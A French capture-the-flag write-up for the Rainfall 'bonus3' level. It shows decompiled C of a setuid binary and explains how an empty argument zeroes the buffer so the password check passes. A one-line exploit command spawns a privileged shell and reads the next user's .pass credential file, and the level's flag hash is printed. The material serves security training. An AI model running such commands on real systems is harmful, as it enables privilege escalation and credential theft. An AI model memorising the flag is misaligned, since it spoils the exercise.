  # rainfall : [bonus3]

Observations:
---

#### Source décompilée:
```c
int main(int argc, const char **argv, const char **envp)
{
  char ptr[132];
  FILE *v5;

  v5 = fopen("/home/user/end/.pass", "r");
  memset(ptr, 0, sizeof(ptr));
  if ( !v5 || argc != 2 )
    return -1;
  fread(ptr, 1u, 0x42u, v5);
  ptr[65] = 0;
  ptr[atoi(argv[1])] = 0;
  fread(&ptr[66], 1u, 0x41u, v5);
  fclose(v5);
  if ( !strcmp(ptr, argv[1]) )
    execl("/bin/sh", "sh", 0);
  else
    puts(&ptr[66]);
  return 0;
}
```

#### Entrées du programme:
| Nom | Description |
| --- | ----------- |
| `argv[1]` | Une chaîne de caractères |

#### Détails du programme:
```bash
-rwsr-s---+ 1 end    users  5595 Mar  6  2016 bonus3
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | Ouvre un fichier en mode lecture avec `<fopen>` et inscrit sont descripteur de fichier dans la variable `v5`. <br> Puis remplis de **0** le tableau `ptr` de **132** octets, qui est ensuite écrasé avec **66** octets du contenu du descripteur de fichier `v5`. <br> Par la suite l'octet du tableau `ptr` à l'index résultant de l'appel de `<atoi>` avec `argv[1]` est défini à **0**. <br> Ensuite l'appel à la fonction `<fread>` copie **65** octets du contenu du descripteur de fichier `v5` dans le tableau `ptr` à l'index **66** puis le descripteur de fichier est fermé. <br> Les chaînes de caractères `ptr` et `argv[1]` sont comparées et si elle  sont identique un terminal `sh` est ouvert, sinon le tableau `ptr` à partir de l'index **66** est affiché.


#### Conclusions:
L'utilisation de `<atoi>` de la sorte est une erreur, car si le contenue de la chaîne passé en paramètre est vide alors la valeur de retour est **0**.

----
Résolution:
----
Passer une chaîne vide en paramètre permet de mettre le premier octet du tableau `ptr` à **0** rendans le résultat de la comparaison de chaînes toujours positif. \
Nous permettant ainsi d'exécuter ce que nous voulons dans le terminal `sh`.

#### Commande:
```bash
./bonus3 "" <<< 'cat /home/user/end/.pass'
```

**Flag :** 3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
